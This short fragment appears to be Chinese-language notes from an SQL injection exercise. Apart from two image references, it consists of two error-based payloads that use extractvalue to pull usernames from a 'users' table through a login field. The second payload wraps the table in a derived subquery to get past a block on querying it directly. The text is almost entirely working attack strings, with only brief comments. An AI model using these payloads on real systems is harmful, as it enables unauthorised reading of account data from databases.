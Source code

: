 ![](file/image_A3l67os3vK.png)

```sql
//通过表users进行爆数据时被拒绝
admin' 
and extractvalue(1,concat(0x7e,(select username from users limit 0,1))) # 
```

![](file/image_Qji8gyUfP4.png)

```sql
//将 users 表用 select * from users 语句代替
admin' and extractvalue(1,concat(0x7e,(select username from (select * from users)a limit 0,1))) #
```
